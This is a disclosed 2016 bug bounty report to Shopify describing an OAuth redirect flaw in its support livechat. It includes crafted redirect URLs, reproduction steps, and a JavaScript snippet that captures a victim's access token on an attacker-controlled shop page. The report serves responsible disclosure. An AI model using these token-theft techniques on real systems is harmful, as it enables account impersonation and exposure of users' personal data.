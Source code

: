 # Stealing livechat token and using it to chat as the user - user information disclosure 

## Report Details
- **Report ID**: 151058
- **URL**: https://hackerone.com/reports/151058
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-13T06:15:51.924Z
- **Disclosed**: 2016-07-19T00:53:07.236Z

## Reporter
- **Username**: zombiehelp54
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi , I have found an issue through which an attacker can steal users' livechat access token and use it to login and chat with the support agents as them , he also will be able to get access to sensitive user information such as his email and his first name and last name.
#Details: 
When you go to https://support.shopify.com/ , if you click the **Open Chat** button at the bottom of the page, you'll be asked to authenticate using your shop. 
When you click the **authenticate** button , you'll go to this link: 
```
https://tasker-merchant-auth.herokuapp.com/auth/shopify/?utf8=%E2%9C%93&auth_type=chat&return_to=https%3A%2F%2Flivechat.shopify.com%2Fcustomer%2Fchats%2Fnew&shop=<shop>.myshopify.com
```
The problem is that you have configured your oauth redirect_uri (the `return_to` parameter ) to accept any link like this: 
- <anything>.shopify.com/
- <anything>.myshopify.com/

Which means that an attacker can set the redirect URI to something like: 
```
https://tasker-merchant-auth.herokuapp.com/auth/shopify/?utf8=%E2%9C%93&auth_type=chat&return_to=https://<attacker_shop>.myshopify.com/&shop=<victim_shop>.myshopify.com
```
And send the link to the victim and when his victim opens it , he will be redirected to `https://<attacker_shop>.myshopify.com/?auth_code=<access_token>` and since the attacker has full control over the HTML and JavaScript of `<attacker_shop>.myshopify.com` , he can use JavaScript to fetch the returned access token and save it anywhere. 

Then the attacker can use that access token to login as the user's shop in livechat.shopify.com by going to 
`https://livechat.shopify.com/customer/chats/new?auth_code=<access_token>&auth_type=chat` 
After that the attacker can know the first name and the email of the victim by checking the page source code.
They will be stored as: 
```javascript
var chat = new TC.CustomerChat({
      chat: {"id":"<id>","token":"<chat_token>","name":"<user_first_and_last_name>","email":"<user_email>","metadata": "<other_meta_data>"},
      host: "livechat.shopify.com",
      role: "customer",
      eventChannel: eventChannel,
      pusher: new Pusher("c7e0a5a73ab848bea519")
    });
```
#Steps to reproduce:
1. Go to: ` https://tasker-merchant-auth.herokuapp.com/auth/shopify/?utf8=%E2%9C%93&auth_type=chat&return_to=https://zh5401.myshopify.com/&shop=<your_shop>.myshopify.com `
2. If you haven't authorized Shopify support before , you'll be asked to grant access and if you have already done that before , you'll be automatically redirected to `https://zh5401.myshopify.com/?auth_code=<access_token>&auth_type=chat` 
3. You'll see your access token in an alert box and it will be written to the DOM , copy that access token and open a new browser then go to  `https://livechat.shopify.com/customer/chats/new?auth_code=<access_token>&auth_type=chat`  
4. You'll be able to login to livechat , to see your email and name , view the page source then look for `TC.CustomerChat` 

Code used in `https://zh5401.myshopify.com` to fetch the `auth_code`: 
```html
<script>
 var token = window.location.search.match(/auth_code=([^&]+)/);
      if (token && token.length > 1) {
        alert("Your access token is: " + token[1]);
        document.write("Attacker can use it to chat with support agents as you and he will be able to get your email <br> <b>Go to https://livechat.shopify.com/customer/chats/new?auth_type=chat&auth_code=" + token[1]);
      }

</script>
```

#Impact:
There are two impacts here , one is chatting with support agents as another user which may lead to a lot of problems. The other is getting sensitive information about the user such as his email and full name. 

Thanks! 


## Attachments
No attachments
